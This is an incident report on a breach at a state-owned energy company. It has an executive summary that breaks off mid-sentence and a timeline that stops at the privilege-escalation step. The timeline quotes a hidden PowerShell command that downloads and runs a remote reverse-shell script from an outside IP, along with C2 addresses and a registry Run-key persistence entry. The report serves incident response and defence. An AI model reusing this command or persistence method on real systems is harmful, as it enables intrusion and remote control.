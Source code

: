 # SOEG Incident Report

## Executive Summary

State-Owned Energy Company received alert notification on January 16th, 2025 from internal SIEM system about potential malicious activity. Upon closer inspection it was discovered that malicious actor gained access to employe personal computer by tricking employee into executing malicious payload from fake web page.

After initial compromise of employee PC, attacker was able to escalate privileges by exploiting unpatched vulnerability on PC (CVE-2024-30088), proceeded by scanning rest of the company network, establishing communication with Command and Control (C2) and securing persistence. 

During presence on employee PC, attacker exfiltrated several documents with sensitive information and was also able to obtain domain admin credentials which he used to gain access to Domain Controller DC.

After obtaining access to DC, attacker installed remote access tool on DC and secured persistence by deploying C2 malware to rest to the office machines. During his presence on DC, attacker obtained "golden ticket" that ensured unrestricted access to rest of the domain.

Next, attacker compromised email server however was unsuccessful at exfiltrating company emails. After this unsuccessful attempt, attacker deployed encryption malware that affected 23 systems in total and encrypted many company files which resulted in 

## Incident timeline

- `Jan 16, 2025 @ 17:02:12.573`: One of the employees was tricked via fake CAPTCHA web page `free-web-captcha.site` into executing malicious PowerShell script on `officewin9` that established initial foothold on the system.

    - Malicious PowerShell script: `"C:\Windows\system32\WindowsPowerShell\v1.0\PowerShell.exe" -WindowStyle Hidden -Command "iex (iwr 'http://78.141.223.161/revshell.txt' -UseBasicParsing).Content"`.

- `Jan 16, 2025 @ 17:02:14:042`: Attacker established reverse shell to `175.45.176.81` on port `8080`.

- `Jan 16, 2025 @ 17:02:48.437`: Attacker started discovery, using commands like `whoami`, `ipconfig`, `hostname`, `net`.

- `Jan 16, 2025 @ 17:07:19.945`: C2 Havoc framework dropped.
    - C2 malware: `c:\windows\system32\microsoft\crypto\rsa\machinekeys\UpdaterCore.exe`.
    - IP of C2 : `87.250.250.42`.

- `Jan 16, 2025 @ 17:08:38.875`: Persistence established on `officewin9` by creating registry key:
    - key: `HKU\S-1-5-21-2918068850-3100921079-2521427286-1308\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\WinUpadate`.
    - value: `c:\windows\system32\microsoft\crypto\rsa\machinekeys\UpdaterCore.exe`.

- `Jan 16, 2025 @ 17:09:16.928`: Attempted privilege escalation via `winPEAS.ps1`.

- `Jan 16, 2025 @ 17:54:15.266`: Attacker downloaded `UpdateCheck.exe` file that exploited `CVE-2024-30088` vulnerability on `officewin9`.
